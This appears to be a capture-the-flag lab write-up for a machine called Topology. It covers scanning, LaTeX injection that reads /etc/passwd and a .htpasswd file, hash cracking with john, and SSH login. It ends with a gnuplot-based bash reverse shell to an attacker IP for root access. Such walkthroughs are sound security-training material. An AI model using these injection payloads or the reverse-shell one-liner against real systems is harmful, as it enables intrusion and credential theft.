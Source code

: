 
Nmap scanning:

~~~
nmap 10.10.11.217 -sC -sV
~~~

~~~
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-26 12:01 EDT
Nmap scan report for 10.10.11.217
Host is up (0.44s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.10 seconds
~~~~


![[VirtualBox_kali_26_06_2023_16_51_08.png]]

webpage in the open port 

![[VirtualBox_kali_26_06_2023_16_51_23.png]]

redirected page

LaTeX allows two writing modes for mathematical expressions: the inline math mode and display math mode: **inline math mode is used to write formulas that are part of a paragraph**.

inline math mode syntax ($....$)

~~~
$\lstinputlisting{/etc/hosts}$
~~~

![[VirtualBox_kali_26_06_2023_16_51_44.png]]


~~~
$\lstinputlisting{/etc/passwd}$
~~~


![[VirtualBox_kali_26_06_2023_17_00_04.png]]


~~~
wwfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 --hw=545  -H "Host: FUZZ.topology.htb" http://topology.htb
~~~


![[VirtualBox_kali_26_06_2023_17_38_07.png]]

![[VirtualBox_kali_04_07_2023_06_01_55.png]]

~~~
$\lstinputlisting{/var/www/dev/.htpasswd}$
~~~

![[VirtualBox_kali_26_06_2023_17_51_33.png]]

we find the password in hash type we decrypt with john tool

$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0  decrypt this 

~~~
john -w=/home/subhash/Downloads/rockyou.txt topology.txt
~~~


![[VirtualBox_kali_26_06_2023_18_50_11.png]]

username  : vdaisley
pass:calculus20

![[VirtualBox_kali_04_07_2023_05_56_53.png]]


~~~
ssh vdaisley@topology.htb
~~~

~~~
vdaisley@topology.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

vdaisley@topology:~$ ls
user.txt
vdaisley@topology:~$ cat user.txt
53e22684b427042e237215ac88b129d9
~~~


user.txt:53e22684b427042e237215ac88b129d9



![[VirtualBox_kali_04_07_2023_15_07_04.png]]

Payload
~~~
echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.21/443 0>&1'\")" >asdf.plt
~~~


Reverse shell:

~~~
nc -lvnp 443
~~~


![[VirtualBox_kali_04_07_2023_15_06_47.png]]

root.txt
e7e3dff45dd2d11aa27cfae7cb60607e

finished 🔥🔥😁


Reference:
https://httpd.apache.org/docs/2.4/programs/htpasswd.html
https://www.kali.org/tools/wfuzz/
https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection#latex-injection
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/
https://www.youtube.com/watch?v=H3SSO3B62U4&ab_channel=AbhishekMorla




